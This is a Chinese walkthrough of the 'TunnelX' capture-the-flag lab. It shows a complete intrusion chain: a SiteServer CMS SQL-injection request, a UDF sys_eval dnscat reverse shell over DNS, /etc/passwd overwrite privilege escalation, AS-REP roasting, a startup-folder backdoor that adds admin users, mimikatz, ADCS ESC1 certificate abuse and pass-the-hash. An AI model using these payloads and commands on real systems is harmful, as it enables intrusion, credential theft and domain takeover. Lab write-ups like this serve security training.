

内网渗透之春秋云镜（4）-TunnelX

- - -

# 内网渗透之春秋云镜（4）-TunnelX

在 "TunnelX" 靶场中，模拟了一个封闭的内网环境，完成该挑战可以帮助玩家了解内网渗透中不出网环境下的代理转发、内网扫描、信息收集、kerberos 协议以及横向移动技术方法，加强对域环境核心认证机制的理解，并学习如何利用不同技术组合来实现横向移动和攻击内部系统。该靶场共有 4 个 flag，分布于不同的靶机。

## 第二关

```plain
由于处于一个封闭的内网环境。搭建好特定的隧道，对目标内网展开信息收集。
```

爆扫一通发现开放两个有用的端口：80 和 2121

80 端口起的是 SiteServer CMS 版本都是 V6.15.51，存在一个后台 sql 注入的洞子[CVE-2021-42655](https://github.com/siteserver/cms/issues/3237)

2121 有一个 ftp，存在匿名登录

```plain
ftp 39.99.146.96 2121
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024813-9b51c528-cb69-1.png)

有个 secret.7z get 出来加密我们用 7z2john+john 爆破一下

```plain
7z2john '/root/Desktop/secret.7z' > 1.txt
john '/root/1.txt'  --wordlist='/root/Desktop/rockyou.txt'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024818-9e3bf218-cb69-1.png)

密码是 13131313

解出 secret.txt，内容如下

```plain
A strange character string, You're the only one I'm telling
e7d41890-5742-48f0-9f3c-1393db541fc7
```

[API 身份认证 | SiteServer REST API (sscms.com)](https://sscms.com/docs/v6/api/guide/authentication.html#%E8%8E%B7%E5%8F%96-api-%E5%AF%86%E9%92%A5)我们从文档的得知 sscms 通过通过 Header 发送 API 密钥可以代替拿账户密码的来登录的操作，而是上面的字符串其实就是 sscms 的 api-key，我们那带 apikey 就相当于可以访问后台，从而实现后台的 sql 注入[https://github.com/siteserver/cms/issues/3237](https://github.com/siteserver/cms/issues/3237)

apikey 后台访问操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024825-a25f3044-cb69-1.png)

后台 sql 注入的操作如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024830-a56be1ce-cb69-1.png)

于是乎我们就可以构造响应的攻击发包

```plain
POST /api/pages/cms/libraryText/list HTTP/1.1
Host: 39.100.183.36
X-SS-API-KEY: e7d41890-5742-48f0-9f3c-1393db541fc7
Content-Type: application/json
Content-Length: 131

{"siteId":1,"keyword":"' and 1=(select @@Version)--","groupId":0,"page":1,"perPage":24}`
```

但这里的数据库只有 DNS 流量出网这里 sql 的命令执行结果只能 curl 出来，并且我们只能执行 sql 语句，这里我们搭一下大头哥的便车（[https://github.com/LxxxSec/TunnelX/blob/master/udf-dnscat.py）要是我们想要顺利执行命令就需要加载一个udf.so并且建立一个可以执行命令sys\_eval函数](https://github.com/LxxxSec/TunnelX/blob/master/udf-dnscat.py%EF%BC%89%E8%A6%81%E6%98%AF%E6%88%91%E4%BB%AC%E6%83%B3%E8%A6%81%E9%A1%BA%E5%88%A9%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4%E5%B0%B1%E9%9C%80%E8%A6%81%E5%8A%A0%E8%BD%BD%E4%B8%80%E4%B8%AAudf.so%E5%B9%B6%E4%B8%94%E5%BB%BA%E7%AB%8B%E4%B8%80%E4%B8%AA%E5%8F%AF%E4%BB%A5%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4sys_eval%E5%87%BD%E6%95%B0)

哦我们可以利用上述脚本完成 DNS 隧道反弹 shell 的操作

首先 run 上述脚本会写入 udf.so 创建 sys\_eval 函数并且写入 dnscat 工具，dnscat 工具可以实现利用 DNS 隧道反弹 shell，之后在自己的 vps 上添加云 dns 解析域名，最好是没有正在使用的域名，需要分别设置一个 A 记录和 NS 记录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024837-a973be90-cb69-1.png)

然后在 vps 上起一个 dnscat 的 docker

```plain
docker run -p 53:53/udp -it --rm mpercival/dnscat2 ruby ./dnscat2.rb ns1.xxx.xxx -c datou
```

这里注意吧 vps 的 53 端口添加 udp 协议许可

```plain
POST /api/pages/cms/libraryText/list HTTP/1.1
Host: 39.100.183.36
X-SS-API-KEY: e7d41890-5742-48f0-9f3c-1393db541fc7
Content-Type: application/json
Content-Length: 131

{"siteId":1,"keyword":"';select sys_eval('/tmp/dnscat --secret=datou ns1.xxx.xxx')-- ","groupId":0,"page":1,"perPage":24}
```

出现 New window created: 1 说明执行成功

```plain
window -i 1
shell//显示New window created: 3，然后换到 3
window -i 3
python -c 'import pty;pty.spawn("/bin/bash")'
```

**提权部分**

```plain
find / -perm -u=s -type f 2>/dev/null
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024845-ae79376c-cb69-1.png)

cp 提权

我们还是搭一下大头哥的便车

[https://github.com/LxxxSec/TunnelX/blob/master/passwd.py](https://github.com/LxxxSec/TunnelX/blob/master/passwd.py)

上传 root 密码是 123456 的 etc/passwd

```plain
cp /tmp/passwd1 /etc/passwd
su root
123456
cd /root/flag
cat *
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024851-b2354cc4-cb69-1.png)

然后就是代理搭建部分，上面说到这能通过 dns 流量，所以我们首先要构建 dns 隧道，使用 iodine 做个 DNS 代理，但是因为条件有限，我们只有一个 vps，iodine 和 dnscat 端口使用重合（因为 iodine 会分别在客户端和服务端创立虚拟网卡，然后客户端的 dns0 会去连接服务端的 53 端口，），所以我们可以让 iodine 先 sleep 几秒，在这几秒钟内关闭运行 dnscat 容器

上传部分还是搭大头哥的便车[https://github.com/LxxxSec/TunnelX/blob/master/iodine.py](https://github.com/LxxxSec/TunnelX/blob/master/iodine.py)

```plain
chmod 777  /tmp/iodine
nohup sleep 20 && /tmp/iodine -f -P datou ns1.cqupt.team &
```

然后停止运行 dockers

```plain
docker stop id
```

起服务端创建一个 192.168.0.1 网段的虚拟网卡

```plain
iodined -f -c -P datou 192.168.0.1 ns1.cqupt.team -DD
```

然后用 ssh 创建 socks 代理

```plain
ssh -N -D 29999 root@192.168.0.2
```

frpc.ini

```plain
[common]
server_addr = vpsip
server_port = 7000

[yj]
type = tcp
local_ip = 127.0.0.1
local_port = 29999
remote_port = 39999
```

这里其实就我们让本地监听了 29999 端口，然后修改完了 frpc.ini frpc 和 frps 全在 vps 上运行，这样 frp 就会把 29999 端口映射掉 39999 端口上，也就是相当于在一个 39999 端口建立和内网的代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024900-b7654eba-cb69-1.png)

连接成功拿 proxychains test 一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024905-ba73bd62-cb69-1.png)

代理构建成功

## 第三关

```plain
寻找到主机上的薄弱点，尝试将权限提升至 SYSTEM。
```

ifconfig

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024911-bdcd992e-cb69-1.png)

上 fscan 这里要说一下，fscan 尽量在代理建立之前传上去

```plain
___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
(icmp) Target 172.22.61.41    is alive
(icmp) Target 172.22.61.17    is alive
(icmp) Target 172.22.61.50    is alive
(icmp) Target 172.22.61.34    is alive
[*] Icmp alive hosts len is: 4
172.22.61.41:22 open
172.22.61.34:445 open
172.22.61.50:445 open
172.22.61.17:445 open
172.22.61.34:139 open
172.22.61.17:139 open
172.22.61.50:139 open
172.22.61.34:135 open
172.22.61.50:135 open
172.22.61.17:135 open
172.22.61.50:80 open
172.22.61.17:88 open
172.22.61.41:3306 open
[*] alive ports len is: 13
start vulscan
[*] NetInfo:
[*]172.22.61.17
   [->]DC
   [->]172.22.61.17
   [->]2001:0:348b:fb58:383c:21f6:d89c:1748
[*] 172.22.61.17  (Windows Server 2016 Datacenter 14393)
[*] NetInfo:
[*]172.22.61.34
   [->]WIN2012
   [->]172.22.61.34
[*] NetBios: 172.22.61.17    [+]DC DC.xiaorang.lab               Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.61.50    Web.xiaorang.lab                    Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.61.34    WIN2012.xiaorang.lab                Windows Server 2012 R2 Datacenter 9600 
[*] WebTitle: http://172.22.61.50       code:200 len:24977  title:Zosimos
[+] SSH:172.22.61.41:22:root 123456
```

总结一下目标

```plain
172.22.61.17 DC 
172.22.61.34 WIN2012.xiaorang.lab 
172.22.61.50 Web.xiaorang.lab
172.22.61.41 拿下
```

DC 的 ldap 匿名访问

```plain
proxychains ldapsearch -H ldap://172.22.61.17 -b "DC=xiaorang,DC=lab" -x|grep ',CN=Users,DC=xiaorang,DC=lab'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024918-c2149db6-cb69-1.png)

这样我们可以得到所以的域用户名

AS-REP Roasting

```plain
proxychains python3 '/root/Desktop/impacket-master12/examples/GetNPUsers.py'  -dc-ip 172.22.61.17 -usersfile '/root/Desktop/users.txt'  xiaorang.lab/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024922-c4d98868-cb69-1.png)

```plain
$krb5asrep$23$yangdming@XIAORANG.LAB:f0cf3d49f574dd2a26ed4858bcc9e594$8a0a5ee6d5e83c1595c2b7efec409e1e98358f91776980c4d3c2fe5117511de6556fa2a0dc0762c7f89f16c25c4504beae83d8a69cc002b154c20d1f83c9663180223bd3154ddbd9f912c7cb74c42ee31d8bbb3e34f5e71836ffa7636a9c0f787ee2f1b55a93cfea50b1583c6ba7d5cf44e7dbb50f5d8aadfcaa7b17816053a6718e7d01ddd480f91e28cf3610f90638071f8b8c6310a2e8263617f9d84ce76a5e6a7c3dc9444c639a9eff5ca95baf0da87572f9155f3a956736232fa7cd0fc8e1780b5eabea9c225192353e4a17bf4e66373a799aa3214e5822bb74e0015efbd2e943c98aa8acf39bad271c
```

yangdming 不要求 Kerberos 预身份验证

hashcat 爆破一下

```plain
hashcat -m 18200 '$krb5asrep$23$yangdming@XIAORANG.LAB:324cd949cb813b90b13219cfc6bbbd6e$1b4b3d2bc2c3d754e74e425e18c759c35a27a12341d4e41bd40248d60b4c5c064dcc2ecd7e17571022465b61db5fa98c7826a4fe8e132bb895c48fbcdcd8f011c97ee741d716ca1401ba24a3fd01d72d95071d447a1def6d8cebb9e57108fa3ac2f235b86b281a198e84518fa06b0c3c8d0a8c51a025693ee5e8a23f7757499daf2a336bf26acb952bf814f891c435799221124c94d68a78c44e632eb1a8a6ab599e456cc037f89dee504cf56dcc1d8bef6f619cc7a3172be4d13430873588028dd547e3026ef229e4b545c825f14583baa7c2f0b94e6304a01021bb6fd5173cb2213060727b3e97c533277e' '/root/Desktop/rockyou.txt'  --force
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024928-c84fc034-cb69-1.png)

```plain
kier@n10
```

evil-winrm 连接

```plain
proxychains evil-winrm -i 172.22.61.34 -u yangdming -p kier@n10
```

upload 一个 SharpHound.exe 采集一些

```plain
upload /root/Desktop/SharpHound.exe .
```

```plain
/SharpHound.exe --ldapusername yangdming --ldappassword kier@n10 -c all
```

```plain
download 20240215012904_BloodHound.zip
```

扔到 bloodhound 发下 yangdming 在 SHUWDOWN\_GROUP 并且允许计算机重启，利用重启运行启动项后门获取 system 权限写一个 add.bat

```plain
@echo off
net localgroup administrators yangdming /add
reg ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
net user benbi pass@123 /add
net localgroup administrators benbi /add
```

LocalAccountTokenFilterPolicy 设为 1，添加 benbi，同时吧 yangdming 添加到管理员组内

```plain
cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
upload add.bat
```

然后重启

```plain
shutdown -r -t 0
```

我们再次连接的时候发现多了一个 benbi 的用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024936-cca32bb2-cb69-1.png)

```plain
proxychains python3 wmiexec.py benbi:pass@123@172.22.61.34
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024943-d0ce0ab8-cb69-1.png)

## 第四关

```plain
发现域控制器所存在的漏洞，尝试获取域内管理员权限。
```

现在/etc/hosts 添加一下解析

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024947-d35ef3aa-cb69-1.png)

```plain
172.22.61.17 xiaorang.lab
172.22.61.17 dc.xiaorang.lab
```

上传秘密卡提兹

```plain
/mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords
" "exit"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024953-d6c71f36-cb69-1.png)

抓到用户哈希

```plain
proxychains certipy-ad find -u win2012\$@xiaorang.lab -hashes 00000000000000000000000000000000:b35fa31e83a934b872824eeb8d9426ea -dc-ip 172.22.61.17 -vulnerable
```

ADCS 发现 ESC1，有 win2012 可利用的模板，申请一下证书

```plain
proxychains certipy-ad req -u win2012\$@xiaorang.lab -hashes 00000000000000000000000000000000:b35fa31e83a934b872824eeb8d9426ea -target 172.22.61.17 -ca xiaorang-DC-CA-CA -template win2012 -upn administrator@xiaorang.lab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215024957-d96ef376-cb69-1.png)

转换格式请求 TGT

```plain
proxychains certipy-ad auth -pfx administrator.pfx -dc-ip 172.22.61.17
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215025001-dbc848de-cb69-1.png)

```plain
aad3b435b51404eeaad3b435b51404ee:e26a28fd9daa8a6a4d3c5adbbdcb0f53
```

得到域控哈希

```plain
proxychains python3 '/root/Desktop/impacket-master12/examples/wmiexec.py'  xiaorang.lab/administrator@172.22.61.17 -hashes aad3b435b51404eeaad3b435b51404ee:e26a28fd9daa8a6a4d3c5adbbdcb0f53
```

拿下域控

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215025006-de8ddca0-cb69-1.png)

## 第一关

```plain
请测试暴露在公网上的 Web 应用的安全性，并尝试获取目标数据库权限。
```

我们已经拿下域控直接横向过去就好

```plain
proxychains python3 '/root/Desktop/impacket-master/examples/wmiexec.py'  xiaorang.lab/administrator@172.22.61.50 -hashes aad3b435b51404eeaad3b435b51404ee:e26a28fd9daa8a6a4d3c5adbbdcb0f53
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215025011-e2036940-cb69-1.png)
